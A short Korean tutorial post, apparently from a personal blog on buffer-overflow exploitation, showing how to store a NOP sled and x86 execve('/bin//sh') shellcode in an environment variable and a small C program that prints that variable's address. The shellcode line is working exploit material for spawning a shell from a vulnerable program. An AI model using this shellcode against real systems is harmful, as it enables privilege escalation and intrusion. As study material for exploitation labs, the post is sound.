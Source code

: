 ```yaml
---
title: "환경변수 설정 및 주소 구하기"
excerpt: "환경변수 설정 및 주소 구하기"
toc: true
toc_sticky: true
categories:
  - System
  - Linux
  - BOF
tags:
  - 환경변수
---
```


## 1. 환경변수 설정
export 변수명=변수값
```php
ex)
export addr=`python -c 'print "\x90"*100+ "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
환경변수가 있는지 확인하고 싶으면 env | grep 변수명 ex) env | grep addr

## 2. 환경변수 주소 구하기

```php
#include <stdio.h>
#include <unistd.h>

int main(int argc, char *argv[])
{
   printf("env : %p\n", getenv(argv[1]));
   return 0;
}
```